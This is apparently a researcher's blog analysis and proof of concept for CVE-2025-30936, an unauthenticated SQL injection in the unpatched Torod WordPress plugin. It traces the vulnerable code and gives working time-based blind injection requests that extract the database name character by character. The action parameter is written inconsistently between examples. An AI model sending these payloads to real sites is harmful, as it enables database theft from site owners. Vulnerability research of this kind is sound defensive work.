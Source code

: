 # CVE-2025-30936 Analysis & POC


<!--more-->

The vulnerability occurs in the **Torod** plugin for WordPress. This could allow attackers to directly interact with your database, including but not limited to stealing information.

* **CVE ID**: [CVE-2025-30936](https://www.cve.org/CVERecord?id=CVE-2025-30936)
* **Product**: [WordPress Torod Plugin](https://wordpress.org/plugins/torod/)
* **Vulnerability Type**: SQL Injection
* **Affected Versions**: <= 1.9
* **Fixed in**: <= N/A
* **CVSS severity**:  High (9.3)
* **Required Privilege**: Unauthenticated

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Torod**: v1.9

## Analysis

The core cause is that the application directly inserts data from a **POST** request into an SQL query without proper input validation or control mechanisms.

### Vulnerable Sink

This CVE has no patch available, so we cannot use a **diff tool** to compare the vulnerable and fixed versions.

> In WordPress, for SQLi to occur, the application must interact with the database through the global variable `$wpdb`. We can search for this keyword in the plugin directory to locate the sink.

![Search sink](search_sink.png "Locate the sink in code")

👉 The data from `$_POST['country_id']` is directly inserted into the SQL query without proper validation. Using `sanitize_text_field()` only escapes the string, not fully sanitizing it. Therefore, the SQL Injection vulnerability can occur.

* Source: `$_POST['country_id']`
* Sink: `$wpdb->get_results("SELECT * FROM $table_name WHERE country_id = $country_id")`

### How it works?

The vulnerability lies in the `get_regions_and_cities` function of the `ajaxyk` class within the **inc/ajaxyk.php** file. To determine where it’s called, we search for the keyword `get_regions_and_cities` within the plugin directory.

![Search 1](search_1.png "Find the get_regions_and_cities function")

👉 `get_regions_and_cities` is registered as a callback for two action hooks via the `add_action` function in the `ajaxyk` constructor.

* `wp_ajax_get_regions_and_cities`

  * Written in the format `wp_ajax_{$action}`
  * Requires user authentication

* `wp_ajax_nopriv_get_regions_and_cities`

  * Written in the format `wp_ajax_nopriv_{$action}`
  * Does not require authentication

Since this is an **unauthenticated** vulnerability, we only focus on the `wp_ajax_nopriv_get_regions_and_cities` hook.

Thus, when a **POST** request is sent to `/wp-admin/admin-ajax.php` with parameters:

```http
action=wp_ajax_nopriv_get_regions_and_cities&country_id=payload_here
```

* The `get_regions_and_cities` callback is triggered.
* `country_id` is taken directly from the request and injected into the SQL query.
* The query executes with the malicious payload.

## Exploit

### Detecting SQLi

Send a **POST request** containing the SQLi payload:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=get_regions_and_cities&country_id=(SELECT 1 FROM (SELECT SLEEP(5))a)
```

The resulting query becomes:

```sql
SELECT * FROM wp_torod_regions WHERE country_id = (SELECT 1 FROM (SELECT SLEEP(5))a)
```

![Responsed time](time_resp.png "Response time result")

👉 Based on the response time => the payload works.

**Techniques usable when the table is empty:**

* **UNION**: Since it does not depend on existing data in the table, but requires knowing the number of columns.
* **Subquery**:

  * **Subquery in WHERE clause**: MySQL may optimize and skip the subquery if the result can be determined early. If the table has no data, MySQL might not execute `SLEEP()`.
  * **Subquery in FROM clause**: The subquery is treated as a temporary table. MySQL must execute it first to build the temp table before executing the main query.

![SQL Execution Order](https://www.kdnuggets.com/wp-content/uploads/ferrer_essential_guide_sql_execution_order_6.png "SQL execution order")

### Get the First Letter of Database Name

The prerequisite to **dump all data** is to retrieve at least one character of the database name. Once that is achieved, the rest can be enumerated.

Send a request with the **SQLi payload**:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
...
Cookie: cookie_here

action=get_regions_and_cities=1&country_id=(SELECT 1 FROM (SELECT IF(SUBSTRING(SCHEMA(),1,1)=0x77, SLEEP(5), 1))a)
```

Here, `SUBSTRING()` extracts the first character of the **database name**, and `IF()` triggers `SLEEP(5)` if that character is `0x77` ('w').

We use the hex encoding `0x77` for `w` because `country_id` is taken from a **POST** request, which is escaped by [magic quotes](https://patchstack.com/academy/wordpress/vulnerabilities/sql-injection/#magic-quotes) in WordPress and by `sanitize_text_field`.

👉 Based on response time => the first character is confirmed to be `w`.

## Conclusion

The **CVE-2025-30936** vulnerability in the **WordPress Torod** plugin (version ≤ 1.9) stems from directly inserting user input into an SQL query without proper validation, leading to a classic SQL Injection flaw.

No official patch has been released for this vulnerability yet.

**Key takeaways**:

* Always validate and sanitize user input properly.
* Always use `$wpdb->prepare()` when interacting with the database in WordPress to prevent SQL Injection.
* Keep plugins up-to-date and perform regular security assessments to avoid being targeted.

## References

[SQL Injection Cheat Sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[WordPress Torod Plugin <= 1.9 is vulnerable to SQL Injection](https://patchstack.com/database/wordpress/plugin/torod/vulnerability/wordpress-torod-1-9-sql-injection-vulnerability?_s_id=cve)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-09-28-cve-2025-30936/  

